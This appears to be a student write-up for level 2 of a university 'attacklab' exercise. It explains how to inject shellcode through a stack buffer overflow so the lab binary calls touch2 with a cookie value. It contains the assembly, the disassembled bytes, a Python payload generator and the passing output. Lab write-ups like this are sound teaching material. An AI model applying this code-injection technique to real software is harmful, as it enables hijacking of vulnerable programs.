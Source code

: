 ### Level 2

This level appears similar to level 1, but there is a difference: controlling
`rip` is still required, but we additionally need to control the argument with
which `touch2` (located at `0x4017ec`)  is called such that it matches our
cookie. Since functions are called with the value of `edi` as the first
argument, we know we also need to control that value.

In order to do this, we can leverage the fact that we have control over two
things:

  1. The contents of a buffer
  2. A method by which to jump somewhere (`rip`)

Therefore instead of jumping directly to `touch2`, we can instead jump to the
beginning of our buffer. Why is this useful? Because we can place arbitrary
shellcode there and it will be executed as if it were part of the program. In
this case, we will do the following:

  1. Move the value of our cookie (which is a constant `0x59b997fa`) into `edi`
  2. Store the address of `touch2` somewhere
  3. Jump to that address

First, we can write the Assembly that we will use to generate our shellcode:

```asm
;exploit.asm
[SECTION .text]
global _start
_start:
        mov edi,0x59b997fa
        mov eax,0x4017ec
        jmp eax
```

Then we compile and inspect the byte code:

```
$ nasm -f elf explot.asm
$ objdump -d exploit.o


z.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:	bf fa 97 b9 59       	mov    edi,0x59b997fa
   5:	b8 ec 17 40 00       	mov    eax,0x4017ec
   a:	ff e0                	jmp    eax
```

With that bytecode, we can then write our full exploit. This is some Python
code that can generate our payload:

```python
SHELLCODE = (
    #mov edi,0x59b997fa
    '\xbf\xfa\x97\xb9\x59'
    #mov eax,0x4017ec
    '\xb8\xec\x17\x40\x00'
    #jmp eax
    '\xff\xe0'
)

BUF_ADDR = '\x78\xDC\x61\x55'

PAYLOAD = SHELLCODE + '\x90' * (40-len(SHELLCODE)) + BUF_ADDR

with open('payload', 'wb') as f:
    f.write(PAYLOAD)
```

Now that we have the full payload, take it for a spin:

```
$ ./ctarget -q -i payload
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:2:BF FA 97 B9 59 B8 EC 17 40 00 FF E0 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55
```
